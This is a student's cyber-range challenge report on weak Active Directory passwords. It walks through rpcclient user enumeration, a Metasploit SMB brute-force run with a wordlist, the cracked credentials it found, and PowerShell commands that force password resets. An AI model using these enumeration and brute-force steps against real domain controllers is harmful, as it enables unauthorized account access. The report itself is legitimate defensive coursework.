 # Challenge Report: Bringing Passwords Up To Snuff  
**Course:** CORe 463/563  
**Student:** Ian Sweet  
**Email:** iansweet315@u.boisestate.edu  

---

## Challenge Overview

This challenge focuses on identifying and remediating weak passwords within an Active Directory environment using brute-force techniques. The scenario takes place within the XP CyberRange, where tools like Metasploit and PowerShell are used to conduct the attack and enforce password resets.

---

## Environment Configuration

**Network Subnets:**
- `172.16.30.0/24` – PROD network (Domain Controller, FileShare)
- `172.16.20.0/24` – USRSPC network (Security-Desk, Workstations)
- `172.16.10.0/24` – SUBSCRN network (Joomla server)
- `172.16.40.0/24` – WAN/Outside network

**Firewall Routing:**
- WAN → External
- USRSPC → Security-Desk (`172.16.20.55`)
- PROD → Domain Controller (`172.16.30.55`)
- SUBSCRN → Web services

---

## Tools Used

- **Metasploit (msfconsole)**
- **rpcclient**
- **PowerShell (Set-ADUser)**
- **Linux utilities (grep, cut, nano)**

---

## Steps Taken

### Step 1: User Enumeration
1. Logged into Security-Desk.
2. Connected to Domain Controller using `rpcclient`:
   ```bash
   rpcclient -U "playerone%password123" 172.16.30.55 | tee userdump.txt
   enumdomusers
   grep "user:\[" userinfo.txt | cut -d "[" -f2 | cut -d "]" -f1 > users.txt
   ```

### Step 2: Brute-Force Attack via Metasploit
3. Launched `msfconsole` and loaded SMB brute-force module:
   ```
   use auxiliary/scanner/smb/smb_login
   ```
4. Configured settings:
   ```
   set RHOSTS 172.16.30.55
   set USER_FILE /home/playerone/users.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set THREADS 10
   set VERBOSE true
   run
   ```
5. Identified weak credentials:
   - `jcortes:iloveme`
   - `nkeefe:987654321`

### Step 3: Password Policy Enforcement
6. Logged into Domain Controller as `playerone`.
7. Launched PowerShell and executed:
   ```powershell
   Set-ADUser -Identity jcortes -PasswordNeverExpires $false
   Set-ADUser -Identity jcortes -ChangePasswordAtLogon $true
   Set-ADUser -Identity nkeefe -PasswordNeverExpires $false
   Set-ADUser -Identity nkeefe -ChangePasswordAtLogon $true
   ```

---

## Outcome

- Password resets successfully enforced.
- Weak credentials were flagged and updated.
- Challenge completed and verified with green checks.

---

## Reflection

This challenge highlighted the importance of strong password policies in Active Directory environments. Brute-forcing with Metasploit was more reliable than Hydra in this case. Using PowerShell for policy enforcement was efficient and repeatable. Managing user lists and cleaning input files was a key step in ensuring reliable brute-force success.
